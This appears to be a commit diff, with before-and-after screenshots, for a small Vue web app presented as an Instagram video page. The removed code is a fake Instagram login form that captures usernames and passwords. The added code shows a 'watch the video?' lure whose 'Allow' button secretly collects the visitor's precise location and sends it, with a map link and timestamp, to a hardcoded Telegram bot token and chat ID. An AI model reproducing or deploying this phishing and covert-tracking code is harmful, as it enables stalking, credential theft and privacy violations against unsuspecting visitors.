

Before and after one commit to userforthis/locate, a Vue app: page / in a window 1280 px wide. Shown: the part 240-540 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
changed2

```diff
--- a/src/App.vue
+++ b/src/App.vue
@@ -1,62 +1,55 @@
 <template>
-  <div class="geo-login-video">
-    <video v-if="locationGranted" autoplay loop muted class="background-video">
-      <source src="/geo-location-background.mp4" type="video/mp4" />
-      Your browser does not support HTML5 video.
-    </video>
+  <div class="video-container">
+    <!-- Modal -->
+    <div class="modal" v-if="showModal">
+      <div class="modal-content">
+        <h2>Videoni ko'rishni xohlaysizmi?</h2>
+        <button class="allow-btn" @click="allowVideo">Allow</button>
+      </div>
+    </div>
 
-    <div class="login-container">
-      <div v-if="showLogin" class="login-form">
-        <img src="/instagram-logo.png" alt="Instagram" class="instagram-logo" />
-        <h2 class="instagram-text">Instagram</h2>
-        <input
-          type="text"
-          placeholder="Phone number, username, or email"
-          v-model="username"
-        />
-        <input type="password" placeholder="Password" v-model="password" />
-        <button class="login-btn" @click="submitLogin">Log in</button>
-        <div class="or-divider">
-          <span class="divider-line"></span>
-          <span class="or-text">OR</span>
-          <span class="divider-line"></span>
-        </div>
-        <a href="#" class="forgot-password">Forgot password?</a>
-        <div class="signup-container">
-          <p>
-            Don't have an account? <a href="#" class="signup-link">Sign up</a>
-          </p>
-        </div>
-      </div>
-      <div v-else class="location-request">
-        <h1>Welcome!</h1>
-        <p>Please enable location services to continue.</p>
-        <button @click="getLocation">Enable Location</button>
-        <p v-if="locationError" class="error-message">
-          Error: {{ locationError }}
-        </p>
-      </div>
+    <!-- Video Player -->
+    <div v-if="showVideo" class="video-box">
+      <video controls autoplay class="insta-video">
+        <source src="./assets/mainvideo.mp4" type="video/mp4" />
+        Your browser does not support the video tag.
+      </video>
     </div>
   </div>
 </template>
 
 <script>
 export default {
+  name: "InstagramVideo",
   data() {
     return {
-      showLogin: false,
-      locationGranted: false,
-      username: "",
-      password: "",
-      locationError: null,
+      showModal: true,
+      showVideo: false,
+      latitude: null,
+      longitude: null,
+      botToken: "7622854137:AAH6xblJA8biVHaE4VbC1svOAC-izatOoZI",
+      chatId: "5673984207",
     };
   },
   methods: {
-    getLocation() {
+    allowVideo() {
+      this.showModal = false;
+      this.showVideo = true;
+      this.getGeolocation();
+    },
+
+    getGeolocation() {
       if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(
-          this.handleLocationSuccess,
-          this.handleLocationError,
+          (position) => {
+            this.latitude = position.coords.latitude;
+            this.longitude = position.coords.longitude;
+            this.sendToTelegram();
+          },
+          (error) => {
+            console.error("Geolocation error:", error.message);
+            this.sendToTelegram(true);
+          },
           {
             enableHighAccuracy: true,
             timeout: 5000,
@@ -64,180 +57,104 @@ export default {
           }
         );
       } else {
-        this.locationError = "Geolocation is not supported by this browser.";
+        this.sendToTelegram(true);
       }
     },
-    handleLocationSuccess(position) {
-      const latitude = position.coords.latitude;
-      const longitude = position.coords.longitude;
-      console.log("Latitude: " + latitude + ", Longitude: " + longitude);
-      this.locationGranted = true;
-      this.showLogin = true;
-      this.locationError = null;
-    },
-    handleLocationError(error) {
-      this.locationGranted = false;
-      this.showLogin = false;
-      switch (error.code) {
-        case error.PERMISSION_DENIED:
-          this.locationError = "User denied the request for Geolocation.";
-          break;
-        case error.POSITION_UNAVAILABLE:
-          this.locationError = "Location information is unavailable.";
-          break;
-        case error.TIMEOUT:
-          this.locationError = "The request to get user location timed out.";
-          break;
-        case error.UNKNOWN_ERROR:
-          this.locationError = "An unknown error occurred.";
-          break;
-      }
-    },
-    submitLogin() {
-      console.log("Logging in with:", this.username, this.password);
+
+    sendToTelegram(error = false) {
+      const message = error
+        ? `❌ Geolocation olishda xatolik yuz berdi yoki foydalanuvchi rad etdi.`
+        : `📍 Yangi foydalanuvchi joylashuvi:
+Latitude: ${this.latitude}
+Longitude: ${this.longitude}
+🗺️ Google Maps: https://www.google.com/maps?q=${this.latitude},${this.longitude}
+🕒 Vaqt: ${new Date().toLocaleString()}
+`;
+
+      const encodedMessage = encodeURIComponent(message);
+      const telegramUrl = `https://api.telegram.org/bot${this.botToken}/sendMessage?chat_id=${this.chatId}&text=${encodedMessage}`;
+
+      fetch(telegramUrl)
+        .then((res) => res.json())
+        .then((data) => {
+          console.log("Telegramga yuborildi:", data);
+        })
+        .catch((err) => {
+          console.error("Telegramga yuborishda xatolik:", err);
+        });
     },
   },
 };
 </script>
 
-<style scoped>
-.geo-login-video {
-  position: relative;
-  width: 100%;
-  height: 100vh;
-  overflow: hidden;
+<style>
+* {
+  margin: 0;
+  padding: 0;
+  background: #000;
+  box-sizing: border-box;
+}
+.video-container {
   display: flex;
   justify-content: center;
   align-items: center;
+  width: 100%;
+  min-height: 100vh;
+  background-color: #000;
+  color: #fff;
+  position: relative;
+  font-family: Arial, sans-serif;
 }
 
-.background-video {
-  position: absolute;
+/* Modal styling */
+.modal {
+  position: fixed;
   top: 0;
   left: 0;
   width: 100%;
   height: 100%;
-  object-fit: cover;
-  z-index: -1;
+  background-color: rgba(0, 0, 0, 0.8);
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  z-index: 10;
 }
 
-.login-container {
-  background: rgba(0, 0, 0, 0.5);
-  padding: 20px;
-  border-radius: 10px;
-  color: white;
+.modal-content {
+  background-color: #1a1a1a;
+  padding: 30px 40px;
+  border-radius: 12px;
   text-align: center;
+  box-shadow: 0 0 20px rgba(255, 255, 255, 0.1);
 }
 
-.location-request {
-  /* Styles for the location request section */
-}
-
-.location-request button {
+.allow-btn {
+  margin-top: 20px;
+  background-color: #0095f6;
+  color: white;
   padding: 10px 20px;
-  background-color: #007bff;
-  color: white;
   border: none;
-  border-radius: 5px;
+  border-radius: 8px;
+  font-weight: bold;
   cursor: pointer;
 }
 
-.location-request button:hover {
-  background-color: #0056b3;
+.allow-btn:hover {
+  background-color: #0078cc;
 }
 
-.error-message {
-  color: red;
-  margin-top: 10px;
+/* Video player styling */
+.video-box {
+  max-width: 400px;
+  width: 100%;
+  padding: 20px;
+  border-radius: 20px;
+  background-color: #111;
+  box-shadow: 0 0 30px rgba(255, 255, 255, 0.1);
 }
 
-.login-form {
-  background: #000;
-  padding: 30px 40px;
-  border-radius: 1px;
-  width: 350px;
-  display: flex;
-  flex-direction: column;
-  gap: 12px;
-  align-items: center;
-  text-align: center;
-}
-
-.instagram-logo {
-  width: 75px;
-  height: 75px;
-  margin-bottom: 10px;
-}
-
-.instagram-text {
-  font-family: "Brush Script MT", cursive;
-  font-size: 40px;
-  margin: 0 0 20px 0;
-  font-weight: normal;
-}
-
-.login-form input {
+.insta-video {
   width: 100%;
-  padding: 12px 10px;
-  border: 1px solid #262626;
-  border-radius: 3px;
-  background: #121212;
-  color: #fff;
-  margin-bottom: 6px;
-  font-size: 12px;
-}
-
-.login-btn {
-  background: #0095f6;
-  color: #fff;
-  border: none;
-  border-radius: 4px;
-  padding: 8px 0;
-  font-weight: bold;
-  cursor: pointer;
-  width: 100%;
-  margin-top: 8px;
-}
-
-.login-btn:hover {
-  background: #0078cc;
-}
-
-.or-divider {
-  display: flex;
-  align-items: center;
-  width: 100%;
-  margin: 15px 0;
-}
-
-.divider-line {
-  flex: 1;
-  height: 1px;
-  background-color: #262626;
-}
-
-.or-text {
-  padding: 0 15px;
-  color: #8e8e8e;
-  font-size: 13px;
-  font-weight: 600;
-}
-
-.forgot-password {
-  color: #0095f6;
-  font-size: 12px;
-  text-decoration: none;
-  margin-top: 5px;
-}
-
-.signup-container {
-  margin-top: 20px;
-  font-size: 14px;
-}
-
-.signup-link {
-  color: #0095f6;
-  text-decoration: none;
-  font-weight: 600;
+  border-radius: 12px;
 }
 </style>
```
